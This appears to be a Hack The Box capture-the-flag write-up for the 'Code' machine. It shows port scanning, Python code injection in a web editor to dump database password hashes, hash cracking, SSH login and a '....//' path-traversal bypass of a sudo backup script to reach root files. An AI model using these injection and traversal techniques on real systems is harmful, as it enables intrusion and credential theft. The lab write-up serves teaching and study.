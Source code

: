 ```yaml
---
clayout: ctf
title: Code
date: 2025-05-14
image: /ctf/hack-the-box/machines/code/info-card.png
type: Hack The Box
ctf:
    - name: Code
      link: https://app.hackthebox.com/machines/653
      thumbnail: /ctf/hack-the-box/machines/code/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/653
          thumbnail: /ctf/hack-the-box/machines/code/pwned.png
---
```


# Enumeration

## Network Scanning

We perform a scan to identify open ports and services:

```bash
nmap -sC -sV -v -A -p- -oN nmap.txt 10.10.11.62
```

**Scan Results:**

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b5b97cc4503295bcc26517df51a27abd (RSA)
|   256 94b525549b68afbe40e11da86b850d01 (ECDSA)
|_  256 128cdc97ad8600b488e229cf69b56596 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: gunicorn/20.0.4
```

**Summary of Open Ports:**

| Port     | Service | Version         |
| -------- | ------- | --------------- |
| 22/tcp   | SSH     | OpenSSH 8.2p1   |
| 5000/tcp | HTTP    | Gunicorn 20.0.4 |

## Web Enumeration

Navigating to `http://10.10.11.62:5000` revealed a custom Python code editor interface.

![Python Code Editor](/ctf/hack-the-box/machines/code/python-code-editor.png)

Using `Wappalyzer`, we identified the following client-side technology:

* **Ace Editor**: Version 1.4.12

![Wappalyzer Output](/ctf/hack-the-box/machines/code/wappalyzer.png)

### Code Injection for Environment Enumeration

Through the code execution interface, we executed the following payload to inspect the global environment:

```python
raise Exception(globals())
```

This revealed the presence of a `User` class:

```python
'User': <class 'app.User'>,
```

We used SQLAlchemy-style enumeration to extract user credentials from the database:

```python
for user in User.query.all():
    print(user.username, user.password)
```

**Extracted Credentials:**

```
development 759b74ce43947f5f4c91aeddc3e5bad3
martin      3de6f30c4a09c27fc71932bfc68474be
```

Cracking the hash for `martin` using CrackStation:

```
martin: nafeelswordsmaster
```

### SSH Access

Using the recovered credentials, we established an SSH session:

```bash
ssh martin@10.10.11.62
```

Access was successfully obtained as the user `martin`.

# Privilege Escalation

## Sudo Rights Enumeration

We identified a `sudo` rule allowing passwordless execution of a backup script:

```bash
sudo -l
```

```bash
User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

### Analysis of `/usr/bin/backy.sh`

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

Key behaviors:

* Accepts a JSON file containing backup parameters.
* Enforces path sanitization to prevent directory traversal using `gsub("\\.\\./"; "")`.
* Restricts backups to directories under `/var/` and `/home/`.

**JSON Validation Example:**

```json
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": false,
  "directories_to_archive": [
    "/home/app-production/app"
  ],
  "exclude": [".*"]
}
```

## Exploiting Path Traversal

Despite sanitization, the script improperly handles crafted path traversal sequences such as `....//`, which bypasses the filter.

**Malicious JSON Payload:**

```json
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root/",
    "/home/app-production"
  ],
  "exclude": []
}
```

![Path Traversal Execution](/ctf/hack-the-box/machines/code/path-traversal.png)

After executing the script with the payload:

```bash
sudo /usr/bin/backy.sh /home/martin/backups/task.json
```

Backup archives were generated:

```bash
tar -jxvf code_home_app-production_2025_May.tar.bz2
tar -jxvf code_var_.._root_2025_May.tar.bz2
```

**Recovered Flags:**

* **User Flag**: Located in `/home/martin/backups/home/app-production`
* **Root Flag**: Located in `/home/martin/backups/root`

